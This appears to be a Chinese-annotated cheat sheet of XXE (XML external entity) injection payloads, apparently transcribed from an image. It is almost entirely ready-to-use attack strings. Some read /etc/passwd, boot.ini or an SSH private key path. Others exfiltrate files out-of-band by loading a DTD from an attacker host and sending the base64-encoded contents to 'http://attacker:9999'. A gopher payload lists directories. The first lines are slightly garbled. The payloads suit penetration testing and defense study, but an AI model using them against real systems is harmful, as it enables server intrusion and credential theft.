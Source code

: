 	<root>
	<参数name>name</参数name>
	<参数value>&xxe;</ 参数value>
	</root>

	<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>

	<?xml version="1.0"?>
	<!DOCTYPE data [
	<!ELEMENT data (#ANY)>
	<!ENTITY file SYSTEM "file:///etc/passwd">
	]>
	<data>&file;</data>

	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE foo [  
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE foo [  
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
 ##### 有回显读取本地文件
	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE creds [  
	<!ENTITY goodies SYSTEM "file:////etc/passwd"> ]> 
	<creds>&goodies;</creds>
	也可去掉文件列目录
	file:///root/.sh/id_rsa
	特殊字符
	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE roottag [
	<!ENTITY % start "<![CDATA[">   
	<!ENTITY % goodies SYSTEM "file:////tmp/xxx.txt">  
	<!ENTITY % end "]]>">  
	<!ENTITY % dtd SYSTEM "http://attacker/evil.dtd"> 
	%dtd; ]> 
	<roottag>&all;</roottag>
	evil.dtd
	<?xml version="1.0" encoding="UTF-8"?> 
	<!ENTITY all "%start;%goodies;%end;">
 ##### Blind OOB XXE无回显读取
	需使用参数实体，引用外部DTD
	Payload
	<!DOCTYPE convert [ 
	<!ENTITY % remote SYSTEM "http://ip/test.dtd">
	%remote;%int;%send;
	]>
	test.dtd
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
	<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://attacker:9999?p=%file;'>">
 ##### 列目录
	远程payload
	<!ENTITY % a SYSTEM "file:///"> <!ENTITY % b "<!ENTITY &#37; c SYSTEM 'gopher://ip:80/%a;'>"> %b; %c;
	注入payload
	<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://attacker:80/1.xml">%remote;]><root/>
